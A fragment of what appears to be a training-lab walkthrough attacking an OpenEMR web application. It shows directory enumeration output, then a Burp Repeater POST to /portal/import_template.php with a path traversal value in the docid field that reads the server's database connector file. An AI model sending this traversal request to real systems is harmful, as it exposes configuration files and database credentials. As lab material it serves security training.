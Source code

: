 ```
/library              (Status: 301) [Size: 420] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/library/]
/modules              (Status: 301) [Size: 420] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/modules/]
/portal               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/portal/] 📌
/public               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/public/]
/server-status        (Status: 403) [Size: 353]
/services             (Status: 301) [Size: 421] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/services/]
/sites                (Status: 301) [Size: 418] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/sites/]
/sql                  (Status: 301) [Size: 416] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/sql/]
/templates            (Status: 301) [Size: 422] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/templates/]
/tests                (Status: 301) [Size: 418] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/tests/]
/vendor               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`burpsuite` > `Repeater`

`.../portal/import_template.php`

`HTTP Request`:
```http
POST /portal/import_template.php HTTP/2
Host: a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
Cookie: OpenEMR=fij3jrqm4psf4a3i5tega9dni2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

mode=get&docid=../../../../../../var/www/html/common/database/Connector.php
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Fri, 29 Nov 2024 12:24:28 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 6485

```